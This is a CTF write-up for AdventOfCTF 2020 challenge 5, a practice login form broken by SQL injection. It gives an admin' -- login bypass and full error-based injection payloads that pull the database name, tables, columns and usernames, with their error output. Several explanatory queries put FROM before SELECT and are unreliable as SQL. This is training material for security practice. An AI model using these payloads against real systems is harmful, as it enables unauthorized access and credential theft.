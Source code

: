 +++
author = "Maik de Kruif"
title = "Classic"
subtitle = "Challenge 5 - AdventOfCTF"
date = 2020-12-05T08:57:31+01:00
description = "A writeup for challenge 5 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/080b5d5fcaf13167d2e7e8871fdc8ded.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "sql-injection",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
aliases = [
    "challenge_5"
]
+++

- Points: 500

## Description

Again a login form stands in your way. What powerful 'hacker' tool will help you proceed?

Visit <https://05.adventofctf.com> to start the challenge.

## Finding the vulnerability

Upon opening the challenge website, we're, yet again, greeted with a login form. As the last few challenges used javascript I immediately opened the devtools to have a look at the sources. But, no javascript! This time it looks like the form is actually submitted. Below the form there is also some text: "A classic, with a twist.". When talking about forms, a classic exploit is SQL Injection. So let's try that.

### SQL Injection

My first try was to submit a quote `'` as the username and some garbage password. This is a common check for SQLi and if it works it throws an error:

```text
Error description: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'sd'' at line 1
```

But how does this work in the first place?

#### Background

When a login form on a website is submitted, the website often connects to a database to check the login credentials. On most website this database is a SQL database.

Here's an example of a query to check login credentials:

```sql
FROM `users` SELECT * WHERE `username`='' AND `password`=''
```

_Note: the backticks (\`) mean the content of it is a column in the database._

The username and password values are inserted in this query and if there is a result, the database will return it.

#### Vulnerability

Now that we know how it works, we can try to exploit it. Take my first input for example (`'`) and see what the resulting query would be.

```sql
FROM `users` SELECT * WHERE `username`=''' AND `password`='garbage'
```

The query becomes invalid as there is an unterminated string. So, how do we turn this query into one that logs us in as the admin?

## Solution

Firstly, I tried to use `' OR 1=1 -- ` as the username and, again, some garbage as the password. However, it didn't work. It didn't even return an error. So I guess this is where "A classic, with a twist." comes in. Next, I tried to just use `admin` as the username and end the query after it by inserting a comment (this is `--` in sql). The resulting input would become `admin' -- ` for the username, the password doesn't matter.

The resulting query would be this:

```sql
FROM `users` SELECT * WHERE `username`='admin' -- ' AND `password`='garbage'
```

As we can see, it now only checks the username. I submitted the form and, I got the flag! It is `NOVI{th3_classics_with_a_7wis7}`

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#5-6).

## EDIT

As [@credmp](https://twitter.com/credmp) correctly pointed out, this only works if you can guess the username. If you can't, you'll have to get it first. I'll explain how to do that here.

### Getting the database

As we can see the error on the page itself, we can use a query to give a result inside the error. For instance, to get the database I used the following input: `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT database()),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `. This results into the following query:

```sql
FROM `users` SELECT * WHERE `username`='' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) as x FROM information_schema.tables GROUP BY x) as y) -- ' AND `password`=''
```

After submitting the form it gives us the following error:

```text
Error description: Duplicate entry 'testdb:1' for key 'group_key'
```

#### How does this work?

Firstly, I'll format the query for you:

```sql
FROM `users`
SELECT *
WHERE `username`='' AND (
  SELECT 1 FROM (
    SELECT COUNT(*), CONCAT(
      (
        SELECT database()
      ),
      0x3a,
      FLOOR(RAND(0)*2)
    ) AS x
    FROM information_schema.tables GROUP BY x
  ) AS y) -- ' AND `password`=''
```

Now let me explain this query.

We start with an `AND` to get another value, which is a nested SQL query. This query selects `1`, this is just because we actually need a value. Now we get to the important bit:

```sql
SELECT COUNT(*), CONCAT(
  (
    SELECT database()
  ),
  0x3a,
  FLOOR(RAND(0)*2)
) AS x
FROM information_schema.tables GROUP BY x
```

Here, we select `COUNT(*)` and a string `CONCAT()` with the alias `x`. This `CONCAT()` contains the SQL query we actually want to execute. I can, however, only return one row. The `CONCAT()` also contains `0x3a` which is ASCII for a `:` character so we know where the value we want ends and `FLOOR(RAND(0)*2)`. The purpose of it is to get a duplicate entry error in the `GROUP BY` as it will result in the following values:

```sql
> SELECT FLOOR(RAND(0)*2)x FROM information_schema.tables;
+---+
| x |
+---+
| 0 |
| 1 |
| 1 | <-- The error will occur here.
| 0 |
| 1 |
| 1 |
 ...
```

The error really occurs because of a bug in MySQL. The `COUNT(*)` and `GROUP BY` should give multiple rows as the output, however, MySQL throws an error.

The `FROM` in this query can be any table with three or more rows. `information_schema.tables` is just a common one.

Now we know the name of the database (`testdb`), we can get the tables in it.

### Getting the tables

We can only get the tables one by one (as I explained above) so we can use the following sub-query:

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='testdb' LIMIT 0,1
```

Converted to an input we get `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT table_name FROM information_schema.tables WHERE table_schema='testdb' LIMIT 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `

_Note: to get next table, just edit the `LIMIT` to `1,1`, `2,1` and so on_

Which returns:

```text
Error description: Duplicate entry 'users:1' for key 'group_key'
```

Now that we know the table (`users`), we can get it's columns

### Getting the columns

A sub-query for columns could be the following:

```sql
SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1
```

Which converts to this input: `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `

Which gives us (with other `LIMIT` as well):

```text
Error description: Duplicate entry 'USER:1' for key 'group_key'
Error description: Duplicate entry 'CURRENT_CONNECTIONS:1' for key 'group_key'
Error description: Duplicate entry 'TOTAL_CONNECTIONS:1' for key 'group_key'
Error description: Duplicate entry 'username:1' for key 'group_key'
Error description: Duplicate entry 'password:1' for key 'group_key'
```

The first three we can just ignore as they are default metrics from MySQL. So our resulting columns would be `username` and `password`

### Getting its contents

Because we only care for the username, we can discard the password.

A simple `SELECT` query for the username would be:

```sql
SELECT username from users limit 0,1
```

Turing this into an input we get `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT username from users limit 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `

We get:

```text
Error description: Duplicate entry 'nottheuser:1' for key 'group_key'
Error description: Duplicate entry 'admin:1' for key 'group_key'
```

Which means our users are `nottheuser` and `admin`.
